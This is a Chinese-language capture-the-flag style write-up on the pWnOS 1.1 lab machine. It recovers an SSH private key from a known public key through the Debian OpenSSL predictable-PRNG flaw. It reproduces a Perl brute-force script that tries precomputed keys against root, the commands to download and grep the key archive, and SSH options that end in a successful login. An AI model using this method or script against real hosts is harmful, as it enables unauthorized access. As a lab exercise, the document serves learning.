

利用ssh公钥碰撞出私钥实现私钥登录

利用条件：得知靶机ssh公钥pub文件内容
限制：ssl版本对应`OpenSSL 0.9.8c-1 < 0.9.8g-9`
前置知识：公钥是放在服务器端的，私钥是放在客户端的，网站管理员使用自己的客户机上的私钥去连接服务器端的公钥实现登录
下面以靶机pWnOS 1.1为例

## 用公钥破解私钥信息

靶机存在任意文件读取
首先得到.ssh/authorized_keys文件内容，公钥

涉及到prng
pseudo randow number generator
伪随机数生成器

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $searchsploit prng
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GNU Classpath 0.97.2 - 'gnu.java.security.util.PRNG' Class Entropy (1)                                                                                   | multiple/remote/32673.java
GNU Classpath 0.97.2 - 'gnu.java.security.util.PRNG' Class Entropy (2)                                                                                   | multiple/remote/32674.cpp
LPRng (RedHat 7.0) - 'lpd' Format String                                                                                                                 | linux/remote/227.c
LPRng - use_syslog Remote Format String (Metasploit)                                                                                                     | linux/remote/16842.rb
LPRng 3.6.22/23/24 - Remote Command Execution                                                                                                            | linux/remote/226.c
LPRng 3.6.24-1 - Remote Command Execution                                                                                                                | linux/remote/230.c
LPRng 3.6.x - Failure To Drop Supplementary Groups                                                                                                       | unix/local/20923.c
LPRNG html2ps 1.0 - Remote Command Execution                                                                                                             | unix/remote/21974.pl
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH                                                                  | linux/remote/5622.txt
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH                                                                  | linux/remote/5720.py
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH (Ruby)                                                           | linux/remote/5632.rb
```

选择 Predictable PRNG Brute Force SSH
利用伪随机数生成器生成大量随机私钥公钥来暴力破解ssh密码

```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $cat 5622.txt 
the debian openssl issue leads that there are only 65.536 possible ssh
keys generated, cause the only entropy is the pid of the process
generating the key.

This leads to that the following perl script can be used with the
precalculated ssh keys to brute force the ssh login. It works if such a
keys is installed on a non-patched debian or any other system manual
configured to.

On an unpatched system, which doesn't need to be debian, do the following:

keys provided by HD Moore - http://metasploit.com/users/hdm/tools/debian-openssl/
***E-DB Note: Mirror ~ https://github.com/g0tmi1k/debian-ssh***

1. Download http://sugar.metasploit.com/debian_ssh_rsa_2048_x86.tar.bz2
            https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2 (debian_ssh_rsa_2048_x86.tar.bz2)

2. Extract it to a directory

3. Enter into the /root/.ssh/authorized_keys a SSH RSA key with 2048
Bits, generated on an upatched debian (this is the key this exploit will
break)

1. Run the perl script and give it the location to where you extracted
the bzip2 mentioned.

#!/usr/bin/perl
my $keysPerConnect = 6;
unless ($ARGV[1]) {
   print "Syntax : ./exploiter.pl pathToSSHPrivateKeys SSHhostToTry\n";
   print "Example: ./exploiter.pl /root/keys/ 127.0.0.1\n";
   print "By mm@deadbeef.de\n";
   exit 0;
}
chdir($ARGV[0]);
opendir(A, $ARGV[0]) || die("opendir");
while ($_ = readdir(A)) {
   chomp;
   next unless m,^\d+$,;
   push(@a, $_);
   if (scalar(@a) > $keysPerConnect) {
      system("echo ".join(" ", @a)."; ssh -l root ".join(" ", map { "-i
".$_ } @a)." ".$ARGV[1]);
      @a = ();
   }
}

5. Enjoy the shell after some minutes (less than 20 minutes)

Regards,
Markus Mueller
mm@deadbeef.de
```

根据文本提示，第一步先下载压缩包
```bash
┌─[fforu@parrot]─[~/workspace]
└──╼ $sudo wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2
--2024-03-06 00:06:20--  https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2
正在解析主机 gitlab.com (gitlab.com)... 172.65.251.78, 2606:4700:90:0:f22e:fbec:5bed:a9b9
正在连接 gitlab.com (gitlab.com)|172.65.251.78|:443... 已连接。
已发出 HTTP 请求，正在等待回应... 200 OK
长度：50226987 (48M) [application/octet-stream]
正在保存至: “5622.tar.bz2”

5622.tar.bz2                                   100%[===================================================================================================>]  47.90M  7.78MB/s  用时 7.4s    

2024-03-06 00:06:31 (6.47 MB/s) - 已保存 “5622.tar.bz2” [50226987/50226987])
```

第二步解压

sudo tar xjf 5622.tar.bz2

第三步

在得到的密钥对中搜索是否有对应的私钥


```bash
┌─[✗]─[fforu@parrot]─[~/workspace/rsa/2048]
└──╼ $sudo grep -lr 'AAAAB3NzaC1yc2EAAAABIwAAAQEAxRuWHhMPelB'
[sudo] fforu 的密码：
dcbe2a56e8cdea6d17495f6648329ee2-4679.pub
```
找到对应公钥


利用对应的私钥进行ssh登录

## ssh登录参数问题

```bash
┌─[✗]─[fforu@parrot]─[~/workspace/rsa/2048]
└──╼ $ssh -i dcbe2a56e8cdea6d17495f6648329ee2-4679 -oHostKeyAlgorithms=ssh-rsa,ssh-dss obama@10.10.10.20
The authenticity of host '10.10.10.20 (10.10.10.20)' can't be established.
RSA key fingerprint is SHA256:+C7UA7dQ1B/8zVWHRBD7KeNNfjuSBrtQBMZGd6qoR9w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.20' (RSA) to the list of known hosts.
obama@10.10.10.20's password: 
```
这里发现即使我们使用了私钥登录也没法登录

使用-vv查看详细日志调试


看到这里的错误是无相互前面算法

那么在ssh连接时加上算法选项

```bash
┌─[✗]─[fforu@parrot]─[~/workspace/rsa/2048]
└──╼ $sudo ssh -i dcbe2a56e8cdea6d17495f6648329ee2-4679 -oHostKeyAlgorithms=ssh-rsa,ssh-dss -oPubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss obama@10.10.10.20 
Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
Last login: Thu Jun 19 10:10:29 2008
obama@ubuntuvm:~$ 
```
成功登录